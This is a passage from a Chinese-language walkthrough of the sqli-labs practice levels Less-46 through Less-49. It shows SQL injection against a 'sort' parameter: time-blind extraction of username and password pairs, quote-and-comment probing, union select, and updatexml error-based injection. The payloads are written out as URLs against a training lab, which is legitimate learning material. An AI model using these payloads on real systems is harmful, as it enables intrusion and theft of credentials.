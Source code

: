 **使用concat_ws()函数将username，password进行分割并一起进行爆破**<br />http://www.web.com/sql/Less-46/?sort=3 and if(substr((select group_concat(concat_ws(’-’,username,password)) from security.users limit 0,1),1,1)=‘d’,1,sleep(1))–+<br />![](https://img-blog.csdnimg.cn/20200727112253700.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HVFx2&originHeight=330&originWidth=845&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推可以得到所有数据。**


# Sqli-labs-Less-47
![](https://img-blog.csdnimg.cn/20200727112640253.png#crop=0&crop=0&crop=1&crop=1&id=zKnvi&originHeight=96&originWidth=1081&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**Sqli-labs-Less-47与Sqli-labs-Less-46关一样也需要使用sort进行注入**<br />![](https://img-blog.csdnimg.cn/20200727112722525.png#crop=0&crop=0&crop=1&crop=1&id=Vad11&originHeight=33&originWidth=405&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断注入点**<br />http://www.web.com/sql/Less-47/?sort=1'<br />![](https://img-blog.csdnimg.cn/20200727113207771.png#crop=0&crop=0&crop=1&crop=1&id=wkBhn&originHeight=70&originWidth=1172&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**报错显示我们多了一个'将其注释**<br />http://www.web.com/sql/Less-47/?sort=1'--+<br />成功<br />![](https://img-blog.csdnimg.cn/20200727113241974.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=iv7HB&originHeight=395&originWidth=367&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-47/?sort=1' union select 1,2,database()--+<br />报错<br />![](https://img-blog.csdnimg.cn/20200727113320240.png#crop=0&crop=0&crop=1&crop=1&id=spWsZ&originHeight=83&originWidth=350&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**尝试使用报错注入**<br />http://www.web.com/sql/Less-47/?sort=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />成功<br />![](https://img-blog.csdnimg.cn/20200727113440472.png#crop=0&crop=0&crop=1&crop=1&id=CCdiB&originHeight=74&originWidth=289&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-46相同，不同的是对参数的处理**<br />**详细见Sqli-labs-Less-46**


# Sqli-labs-Less-48
![](https://img-blog.csdnimg.cn/20200727113837216.png#crop=0&crop=0&crop=1&crop=1&id=RkQDC&originHeight=89&originWidth=1053&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**Sqli-labs-Less-48关与Sqli-labs-Less-46关一样，需要使用sort进行注入**

**判断注入点**<br />http://www.web.com/sql/Less-48/?sort=1'<br />没有错误回显<br />![](https://img-blog.csdnimg.cn/20200727114214265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Rel2Q&originHeight=220&originWidth=350&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**在这一关，不需要使用?sort=1'因为没有进行包裹直接使用?sort=1即可**

**因为没有错误回显，所以只能使用时间盲注**<br />**以下步骤与Sqli-labs-Less-46中时间盲注部分相同，不进行详细叙述**


# Sqli-labs-Less-49
![](https://img-blog.csdnimg.cn/20200727114641704.png#crop=0&crop=0&crop=1&crop=1&id=EM8uN&originHeight=99&originWidth=1068&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**Sqli-labs-Less-49关与Sqli-labs-Less-46关一样，需要使用sort进行注入**
